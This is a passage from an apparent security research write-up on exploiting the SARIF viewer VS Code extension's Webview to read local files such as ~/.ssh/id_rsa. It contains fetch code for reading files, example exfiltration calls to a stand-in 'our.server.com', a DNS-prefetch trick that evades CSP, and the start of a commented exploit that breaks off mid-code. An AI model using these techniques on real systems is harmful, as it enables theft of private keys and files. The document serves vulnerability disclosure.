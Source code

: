 As we can see, `localResourceRoots` is configured very poorly. It allows the Webview to read files from anywhere on the disk, up to the `z:` drive! This means that we can just read any file we want---for example, a user’s private key at `~/.ssh/id_rsa`.

Inside the Webview, we cannot `open` and `read` a file since we don’t have access to NodeJS APIs. Instead, we make a fetch to `https://file+.vscode-resource.vscode-cdn.net/<path>`, and the file contents are sent in the response (if the file exists and is within the `localResourceRoots` path).

To leak `/etc/issue`, all we need is to make the following fetch:
```javascript
fetch('https://file+.vscode-resource.vscode-cdn.net/etc/issue')
	.then((response) => response.text())
	.then((data) => {
		console.log(data);
	 }
);
```
<p class="figure-caption">Example of code that reads the /etc/issue file inside a Webview</p>

### Exfiltrating files
Now, we just need to send the file contents to our remote server. Normally, this would be easy; we would make a fetch to a server we control with the file's contents in the POST body or in a GET parameter (e.g., `fetch('https://our.server.com?q=<b64_file_contents>')`).

However, the Webview has a fairly restrictive CSP. In particular, the `connect-src` directive restricts fetches to `self` and `https://*.vscode-cdn.net`. Since we don't control either source, we cannot make fetches to our attacker-controlled server.

```
default-src 'none';
connect-src 'self' https://*.vscode-cdn.net;
font-src 'self' https://*.vscode-cdn.net;
script-src 'self' https://*.vscode-cdn.net 'unsafe-inline';
style-src 'self' https://*.vscode-cdn.net 'unsafe-inline';
```
<p class="figure-caption">CSP of the SARIF viewer extension’s Webview (<a href="https://github.com/microsoft/sarif-vscode-extension/blob/7215629a48bebb9bd36324549c34c7d58979a048/src/extension/panel.ts#L64-L70">source</a>)</p>

We can circumvent this limitation with, you guessed it, DNS! By injecting `<link>` tags with the `rel="dns-prefetch"` attribute, we can leak file contents in subdomains even with the restrictive CSP `connect-src` directive.
```javascript
<link rel="dns-prefetch" href="//AAA.BBB.CCC.DDD.our.server.com">
```
<p class="figure-caption">Example of HTML code that leaks files using DNS to circumvent a restrictive CSP</p>

To leak the file, all we need is to encode the file in hex and inject `<link>` tags in the DOM, where the `href` points to our attacker-controlled server with the encoded file contents in the subdomains. We just need to ensure that each subdomain has at most 64 characters (including the `.`s) and that the whole subdomain has less than 256 characters.

### Putting it all together
By combining these techniques, we can build an exploit that exfiltrates the user’s `$HOME/.ssh/id_rsa` file. Here is the commented exploit:
```javascript
// 1) Leak the user's $HOME directory by going over the DOM and finding a script
//    that points to the `.vscode` folder which lives in the user’s $HOME
HOME='';
scripts_in_dom = document.getElementsByTagName('script');
len = scripts_in_dom.length;
for (var i = 0; i < scripts_in_dom.length; i++) {
    it = scripts_in_dom[i];
    if (it.src.startsWith('https://file+.vscode-resource.vscode-cdn.net/')) {
        HOME = it.src.split('https://file+.vscode-resource.vscode-cdn.net')[1].split('.vscode')[0];
        break;
```